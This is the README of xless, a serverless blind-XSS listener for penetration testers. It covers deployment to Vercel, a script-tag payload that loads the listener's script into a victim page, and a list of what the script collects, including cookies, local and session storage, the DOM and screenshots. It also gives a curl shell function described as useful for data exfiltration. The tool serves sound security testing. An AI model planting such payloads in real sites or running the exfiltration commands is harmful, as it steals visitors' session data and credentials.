 <h1 align="center">
  <br>
  <a href="https://github.com/mazen160/xless"><img src="https://user-images.githubusercontent.com/29874489/58731472-4f6c8080-83de-11e9-8206-992f4d777fdc.png" alt="Xless"></a>
  <br>
  xless
  <br>
</h1>

<h4 align="center">The Serverless Blind XSS App</h4>

<p align="center">
  <img src="https://img.shields.io/maintenance/yes/2021.svg?style=flat-square" alt="Maintained" />
  <img src="https://img.shields.io/bitbucket/issues-raw/mazen160/xless.svg?style=flat-square" alt="Issues" />
  <img src="https://img.shields.io/github/last-commit/mazen160/xless.svg?style=flat-square" alt="Last Commit" />
</p>

## :information_source: About The Project
**Xless** is a serverless Blind XSS (bXSS) application that can be used to identify Blind XSS vulnerabilities using your own deployed version of the application.
There is no need to run a full deployment process; just setup a [vercel.com](https://vercel.com/) account and run `bash deploy.sh`.
That's it. You now have a fully-running Blind XSS listener that uses Slack to notify you for callbacks.

## :warning: Requirements
* [vercel.com](https://vercel.com/) account: Vercel provides a **free plan** for serverless. If you use another provider for serverless, code changes should be minimal.
* Slack Incoming Webhook URL.
* IMGBB (free) Account and API key - for the screenshots.


## :rocket: Deployment
1. Run `bash deploy.sh`

```bash
$ bash deploy.sh

> Deploying ~/xless under X
> https://custom-xless-deployment.vercel.app [v2] [in clipboard] [4s]
> Success! Deployment ready [4s]
```
2. Use the URL for blind XSS testing :fire:

**Xless will automatically serve the XSS payload, collect information, and exfiltrate it into your serverless app, which is then sent right to you in Slack.**


## :speech_balloon: Example Payload

```html
<script src="https://custom-xless-deployment.vercel.app"></script>
```


## :eyes: Demo
![Demo](https://raw.githubusercontent.com/mazen160/public/master/static/images/xless-screenshot.png)


## :incoming_envelope: Collected Data

* Cookies
* User-Agent
* HTTP Referrer
* Browser DOM
* Browser Time
* Document Location
* Origin
* LocalStorage
* SessionStorage
* IP Address
* Screenshot

## :satellite: Out-of-Band (OOB) Callbacks Listener

Xless also works as an OOB (Out-of-Band) callbacks listener for HTTP/HTTPS requests. Any HTTP GET request that is sent to non-parent path will be alerted.

## :eyes: Demo

```bash
$ curl https://custom-xless-deployment.vercel.app/callback-canary
```

![OOB CallBack Listener Demo](https://raw.githubusercontent.com/mazen160/public/master/static/images/xless-screenshot-oob-callback-example.png)

Or anything random, such as:

```bash
$ curl https://custom-xless-deployment.vercel.app/88bf0ecd
```


## :man_health_worker: Health Check
Xless provides a `/health` endpoint to let you know that everything is configured correctly.
The current tests are the existance of the API keys and a successful image upload to IMGBB.

##  Example Blind XSS payloads

You can view a number of handy XSS payloads for your xless app at `$URL/examples`
* URL: `https://custom-xless-deployment.vercel.app/examples`
Once you deploy your app, you can find the examples there.

## :envelope_with_arrow: Scriptable Messages

You can use Xless to send direct messages to your listener. It can be useful in data exfiltration or as a scriptable way to send messages and alerts to your Slack app.

```shell
# on your (bashrc / zshrch) file:
function xless() {
  curl -s https://custom-xless-deployment.vercel.app/message --data "text=$1"
}
```


## Contribution
Contribution is very welcome. Please share your ideas by Github issues and pull requests.

Here are some ideas to start with:
1. ~~Enabling sharing of page screenshot~~.
2. ~~Scriptable message~~.
3. _Your idea of a new feature_?


## Acknowledgement

* [Matthew Bryant](https://github.com/mandatoryprogrammer) for the XSS Hunter project.
* [Rami Ahmed](https://twitter.com/rami_ahmad) for the "xless" name idea.
* [Damian Ebelties](https://twitter.com/DamianEbelties) for the logo.
* [Rotem Reiss](https://twitter.com/2rs3c) for the screenshot feature.
* [Vercel.com](https://vercel.com/) for operating a great serverless platform.

## Awesome Similar Projects

* [Azure-xless](https://github.com/dgoumans/Azure-xless): An Xless implementation for Microsoft Azure Function by [Daan Goumans](https://twitter.com/daangoumans).


## Legal Disclaimer
This project is made for educational and ethical testing purposes only. Usage of xless for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


## License
The project is currently licensed under MIT License.

## Author
*Mazin Ahmed*
* Website: [https://mazinahmed.net](https://mazinahmed.net)
* Email: mazin [at] mazinahmed [dot] net
* Twitter: [https://twitter.com/mazen160](https://twitter.com/mazen160)
* Linkedin: [http://linkedin.com/in/infosecmazinahmed](http://linkedin.com/in/infosecmazinahmed)

